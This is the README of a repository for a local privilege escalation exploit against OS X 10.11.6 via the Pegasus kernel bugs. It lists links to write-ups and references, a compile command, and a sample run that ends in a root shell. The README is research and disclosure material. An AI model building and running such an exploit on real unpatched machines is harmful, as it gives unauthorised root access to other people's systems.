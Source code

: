 #Local privilege escalation for OS X 10.11.6 via PEGASUS

 * Write up:  
         1. Chinese  Version: https://jaq.alibaba.com/community/art/show?articleid=531   
         2. English Version: https://jaq.alibaba.com/community/art/show?articleid=532
 
 * by Min(Spark) Zheng (twitter@SparkZheng, weibo@蒸米spark)

 * Note:   
         1. If you want to test this exp, you should not install Security Update 2016-001 
            (like iOS 9.3.5 patch for PEGASUS).  
         2. I hardcoded a kernel address to calcuate kslide, it maybe different on your mac.  

 
 * Compile:  
   clang -framework IOKit -framework Foundation -framework CoreFoundation -m32 -Wl,-pagezero_size,0 -O3 exp.m lsym.m -o exp

 * Run the exp:  
    MacBookPro:PEGASUS zhengmin$ ./exp   
    getting kslide...  
    kslide=0x8e00000  
    building the rop chain...  
    exploit the kernel...  
    sh-3.2# whoami  
    root  
    sh-3.2# uname -a  
    Darwin MacBookPro 15.6.0 Darwin Kernel Version 15.6.0: Thu Jun 23 18:25:34 PDT 2016; root:xnu-3248.60.10~1/RELEASE_X86_64 x86_64  


 * Special thanks to proteas, qwertyoruiop, windknown, aimin pan, jingle, liangchen, qoobee, 
   cererdlong, eakerqiu, etc.
 
 * Reference:   
              1. http://blog.pangu.io/cve-2016-4655/  
              2. https://sektioneins.de/en/blog/16-09-02-pegasus-ios-kernel-vulnerability-explained.html  
              3. https://bazad.github.io/2016/05/mac-os-x-use-after-free/  
              4. https://github.com/kpwn/tpwn  
   
